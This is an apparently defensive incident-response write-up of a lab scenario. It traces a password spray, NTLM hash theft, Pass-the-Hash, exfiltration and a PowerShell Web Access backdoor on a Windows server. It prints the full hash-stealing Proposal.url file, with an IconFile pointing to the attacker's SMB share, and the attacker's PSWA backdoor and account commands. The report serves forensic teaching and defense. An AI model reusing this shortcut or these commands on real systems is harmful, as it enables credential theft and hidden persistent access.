











### <span style="color:lightblue">TL;DR</span>

The threat actor compromised a Windows server by performing a password spraying attack against domain accounts, then planted a malicious Internet Shortcut file (`Proposal.url`) in a network share to steal the NetNTLM hash of user `k.texus` via a forced SMB authentication. Using the captured hash, the attacker authenticated via Pass-the-Hash, established an RDP session, exfiltrated sensitive project files (`C:\ProjectArk`) as a ZIP archive to C2 server `yourc2filemanager.cn`, and installed **Windows PowerShell Web Access** as a persistent backdoor with a newly created local account `t.minami`.

### <span style="color:red">Initial Access</span>

The attacker at `6/11/2025 14:35:56` performed a **password spraying attack**.


#### <span style="color:red">Password Spraying Attack</span>

Password spraying is a type of brute force attack where an attacker tries a single common password against many different accounts to avoid triggering lockout policies that would occur when brute forcing a single account with many passwords.



Following the 4625 events, I found a corresponding Event ID 4624 with Type 3 (which means connection through network) - at **2025-06-11 14:35:56** the attacker successfully logged into the **v.hunter** account from `192.168.189.129`.



### <span style="color:red">Shared Folder</span>

The attacker accessed a shared folder **"Proposal"** configured with **Full Control** permissions granted to **Everyone**. The folder is located at:

`C:\Users\k.texus\Desktop\Project Proposal`



This shared folder was last modified at **2025-06-11 14:39:20** and contains two files.



**newproposal.txt** contains a phishing message with an email address pointing to the `@project.ark` domain:

```text
Greeting project manager! your contractor here! I have made a new proposal
for our project and you can click another file on this folder to go directly
to my private website! If you have any question regarding this proposal,
please send it to argonaut@project.ark
```

#### <span style="color:red">NTLM Hash Stealing</span>

The second file, **Proposal.url**, is a malicious Internet Shortcut crafted for **NetNTLM hash theft**:

```ini
[InternetShortcut]
URL=http://argonaut.ark/proposal.html
WorkingDirectory=C:\Users\
IconFile=\\192.168.189.129\%USERNAME%.icon
IconIndex=1
```

This file does not require the victim to execute it. The attack triggers automatically when a user opens the **"Proposal"** folder in Windows Explorer. The **IconFile** parameter forces Windows to fetch the icon from the attacker's SMB share at `\\192.168.189.129`. During this request, Windows automatically performs NTLM authentication and transmits the victim's **NetNTLM hash** to the attacker's server. The use of **%USERNAME%** in the path allows the attacker to identify exactly which account's credentials were captured.

At **2025-06-11 14:41:38** the user **k.texus** opened the folder, triggering the hash leak.

At **2025-06-11 14:42:57** the attacker authenticated as **k.texus** using the captured NTLM hash (Pass-the-Hash).



At **2025-06-11 14:44:48** the attacker connected via RDP using the compromised account.



### <span style="color:red">Exfiltration</span>

To understand what the attacker did during the RDP session, I analyzed the **Microsoft Edge browser history** of **k.texus** using a SQLite viewer on the **History** database file. The **urls** table revealed the attacker's activity chronologically:



The attacker searched for and visited **7-zip.org** to download the archiving tool, then accessed **http://localhost/** - the **ProjectArk** web application running locally on the server. After that, the browser history shows visits to `http://yourc2filemanager.cn/` and `http://yourc2filemanager.cn/upload.php`, confirming the upload of the exfiltrated archive to the C2 server.

To confirm what was archived and when, I used **MFTECmd** to parse the NTFS **$J** journal, which logs all file system operations. Filtering by the **C:\ProjectArk** path revealed:

At **2025-06-11 14:46:42** the attacker created **arkproj.zip** containing the contents of `C:\ProjectArk`. The total size of exfiltrated files was **783,907 bytes**.


At **2025-06-11 14:46:44** the archive was exfiltrated to the C2 server `yourc2filemanager.cn`.


### <span style="color:red">Backdoor Installation</span>

To find post-exfiltration activity, I examined the PowerShell event logs **Windows PowerShell.evtx** - in Event Viewer. However, the most direct evidence came from **ConsoleHost_history.txt** of user **k.texus** which stores a history of all PowerShell commands entered interactively. The file revealed the full sequence of commands executed by the attacker:

```powershell
Install-WindowsFeature -Name WindowsPowerShellWebAccess -IncludeManagementTools
Install-PswaWebApplication -UseTestCertificate
Add-PswaAuthorizationRule -UserName * -ComputerName * -ConfigurationName *
Enable-PSRemoting -Force
Test-WSMan
Get-Service -Name WinRM
net localgroup "remote management users" t.minami /add
net user t.minami
```

After exfiltration, the attacker installed **Windows PowerShell Web Access (PSWA)** as a web-based backdoor to maintain persistent access to the server. PSWA provides a browser-based interface for executing PowerShell commands remotely over the **WinRM** protocol. The rule `Add-PswaAuthorizationRule -UserName * -ComputerName * -ConfigurationName *` grants unrestricted access - any user can connect to any host with any configuration.

### <span style="color:red">Persistence</span>
To maintain persistence, the attacker created a local user **t.minami** and added it to the **Remote Management Users** group, enabling WinRM/PSWA authentication independently of the compromised accounts.

To confirm that the backdoor was actually used, I examined the **IIS logs** located at `\inetpub\logs\LogFiles\W3SVC1`. IIS is the Windows web server that hosts the PSWA web interface - it logs every HTTP request made to it, including the authenticated username, source IP, HTTP method, and response code. The logs confirmed a successful login and session establishment at **2025-06-11 14:54:55**:

```text
2025-06-11 14:54:55 POST /pswa/en-US/logon.aspx ... 192.168.189.129 ... 302 0 0 5389
2025-06-11 14:54:55 GET  /pswa/ ... LIBERYSV08\t.minami 192.168.189.129 ... 302 0 0 58
2025-06-11 14:54:55 GET  /pswa/en-US/console.aspx ... LIBERYSV08\t.minami 192.168.189.129 ... 200 0 0 176
```

The **POST** to **logon.aspx** is the login request. The subsequent **GET /pswa/en-US/console.aspx** returning HTTP 200 confirms the attacker successfully authenticated and reached the interactive PowerShell console. The authenticated username **LIBERYSV08\t.minami** and source IP **192.168.189.129** match the backdoor account and attacker IP identified earlier.

Session ID: `LIBERYSV08\t.minami.250611.075455`
Session terminated at **2025-06-11 14:55:40**.

The attacker also created a network share **ProjectArk** for potential lateral movement.


### <span style="color:lightblue">IOCs</span>

**IPs**  
\- `192.168.189.129` - attacker IP (password spray, SMB hash capture, RDP, PSWA)  
**Domains**  
\- `yourc2filemanager.cn` - C2 exfiltration server  
\- `argonaut.ark` / `project.ark` - phishing domains used in lure documents  
**Files**  
\- `C:\Users\k.texus\Desktop\Project Proposal\Proposal.url` - malicious Internet Shortcut for NTLM hash theft  
\- `C:\Users\k.texus\Desktop\Project Proposal\newproposal.txt` - phishing lure document  
\- `arkproj.zip` - exfiltrated archive (783,907 bytes)  
**Paths**  
\- `C:\ProjectArk` - source folder of exfiltrated data  
**Accounts**  
\- `v.hunter` - compromised via password spraying  
\- `k.texus` - compromised via Pass-the-Hash  
\- `t.minami` - backdoor account created by threat actor  
**Features / Protocols**  
\- `WindowsPowerShellWebAccess` - installed as backdoor web gateway  
\- `WinRM` - enabled for persistent remote access  

### <span style="color:lightblue">Recommendations</span>

**Immediate Actions**
1. **Remove** backdoor account t.minami and audit all local users on the server
2. **Uninstall PSWA**  and disable WinRM if not required
3. **Reset passwords** for all compromised accounts: v.hunter, k.texus
4. **Block** IP 192.168.189.129 and domain yourc2filemanager.cn at the network perimeter
5. **Audit** all files accessed or copied during the RDP session on 2025-06-11

**Preventive Measures**
1. **Restrict share permissions** - remove Full Control for the Everyone group on all shares
2. **Enable SMB signing** to prevent NTLM relay and Pass-the-Hash attacks
3. **Deploy detection rules** for Internet Shortcut files with IconFile pointing to external UNC paths 
4. **Enforce account lockout policies** to mitigate password spraying 
5. **Enable MFA** on RDP and all remote access solutions
6. **Monitor** for PSWA and WinRM installation events via SIEM 

### <span style="color:lightblue">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef action fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef start fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000;

    A(["192.168.189.129<br/>Threat Actor"]):::start --> B["14:35:56<br/>Password Spraying<br/>v.hunter compromised"]:::access
    B --> C["14:39:20<br/>Proposal share accessed<br/>Proposal.url + newproposal.txt planted"]:::action
    C --> D["14:41:38<br/>k.texus opens Proposal folder<br/>NetNTLM hash automatically sent to attacker"]:::action
    D --> E["14:42:57<br/>Pass-the-Hash<br/>Authenticated as k.texus"]:::access
    E --> F["14:44:48<br/>RDP session established<br/>under k.texus account"]:::access

    subgraph Exfiltration [Exfiltration]
        F --> G["14:46:42<br/>arkproj.zip created<br/>C:\ProjectArk - 783,907 bytes"]:::exfil
        G --> H["14:46:44<br/>arkproj.zip uploaded<br/>yourc2filemanager.cn"]:::exfil
    end

    subgraph Persistence [Persistence]
        H --> I["~14:50<br/>PSWA installed<br/>WinRM enabled"]:::persist
        I --> J["~14:50<br/>Local user t.minami created<br/>Added to Remote Management Users"]:::persist
        J --> K["14:54:55<br/>Backdoor access confirmed<br/>t.minami via PSWA"]:::persist
        K --> L(["14:55:40<br/>Session terminated<br/>LIBERYSV08\t.minami.250611.075455"]):::persist
    end
